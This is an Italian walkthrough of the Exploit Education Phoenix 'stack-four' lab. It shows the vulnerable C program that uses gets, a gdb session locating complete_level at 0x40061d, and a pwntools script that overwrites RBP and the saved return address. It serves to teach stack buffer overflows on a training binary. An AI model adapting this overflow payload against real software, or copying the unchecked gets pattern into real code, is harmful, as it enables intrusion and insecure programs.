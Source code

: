 ### Descrizione del Codice

Il programma `stack_four.c` presenta una vulnerabilità di overflow del buffer che può essere sfruttata per sovrascrivere l'indirizzo di ritorno salvato (standard buffer overflow).

### Funzionamento del Programma

1. Il programma legge un input dall'utente utilizzando la funzione `gets` e lo memorizza in `buffer`.
2. La funzione `gets` non controlla la lunghezza dell'input, il che può causare un overflow del buffer.
3. La funzione `start_level` stampa l'indirizzo di ritorno salvato.

### Problema di Sicurezza

Il problema di sicurezza risiede nell'uso della funzione `gets` senza controllare la lunghezza dell'input, il che può causare un overflow del buffer. Questo può essere sfruttato per sovrascrivere l'indirizzo di ritorno della funzione `start_level` per farlo puntare alla funzione `complete_level`.

### Exploit

L'exploit sfrutta l'overflow del buffer per sovrascrivere l'indirizzo di ritorno della funzione `start_level` per farlo puntare alla funzione `complete_level`.

### Esempio di Exploit

Il seguente esempio mostra come sfruttare la vulnerabilità:

```c
#include <err.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

#define BANNER \
  "Welcome to " LEVELNAME ", brought to you by https://exploit.education"

char *gets(char *);

void complete_level() {
  printf("Congratulations, you've finished " LEVELNAME " :-) Well done!\n");
  exit(0);
}

void start_level() {
  char buffer[64];
  void *ret;

  gets(buffer);

  ret = __builtin_return_address(0);
  printf("and will be returning to %p\n", ret);
}

int main(int argc, char **argv) {
  printf("%s\n", BANNER);
  start_level();
}

L'obiettivo di questo livello è sovrascrivere l'indirizzo di ritorno della funzione start_level per farlo puntare alla funzione complete_level invece che a main.

Prima otteniamo l'indirizzo della funzione complete_level:
$ gdb -q /opt/phoenix/amd64/stack-four
Reading symbols from /opt/phoenix/amd64/stack-four...(no debugging symbols found)...done.

gef➤  print complete_level 
$1 = {<text variable, no debug info>} 0x40061d <complete_level>

Quindi dobbiamo sovrascrivere RIP con l'indirizzo 0x40061d.
gef➤  disassemble start_level 
Dump of assembler code for function start_level:
   0x0000000000400635 <+0>:	push   rbp
   0x0000000000400636 <+1>:	mov    rbp,rsp
   0x0000000000400639 <+4>:	sub    rsp,0x50
   0x000000000040063d <+8>:	lea    rax,[rbp-0x50]
   0x0000000000400641 <+12>:	mov    rdi,rax
   0x0000000000400644 <+15>:	call   0x400470 <gets@plt>
   0x0000000000400649 <+20>:	mov    rax,QWORD PTR [rbp+0x8]
   .....

Quindi, per sovrascrivere RIP, dobbiamo inserire (0x50 riempimento + 8 byte per RBP + indirizzo di complete_level).

gef➤  b *0x0000000000400649
Breakpoint 1 at 0x400649

gef➤  r <<< $(python solve.py)
Starting program: /opt/phoenix/amd64/stack-four <<< $(python solve.py)
Welcome to phoenix/stack-four, brought to you by https://exploit.education
Breakpoint 1, 0x0000000000400649 in start_level ()
......

gef➤  info registers rbp
rbp            0x7fffffffe630      0x7fffffffe630

gef➤  x/12xg $rsp
0x7fffffffe5e0:	0x4141414141414141	0x4141414141414141
0x7fffffffe5f0:	0x4141414141414141	0x4141414141414141
0x7fffffffe600:	0x4141414141414141	0x4141414141414141
0x7fffffffe610:	0x4141414141414141	0x4141414141414141
0x7fffffffe620:	0x4141414141414141	0x4141414141414141
0x7fffffffe630:	0x4242424242424242	0x000000000040061d

Qui possiamo vedere che RBP è stato sovrascritto con 0x4242424242424242 e dopo di esso c'è il valore di RIP 0x000000000040061d, che è l'indirizzo della funzione complete_level.

Soluzione:
# solve.py

from pwn import *

buff = ""
buff += 'A'*80  # riempimento
buff += 'BBBBBBBB'  # valore RBP
buff += p64(0x40061d)  # valore RIP

print(buff)

Eseguiamo lo script:
$ python solve.py | /opt/phoenix/amd64/stack-four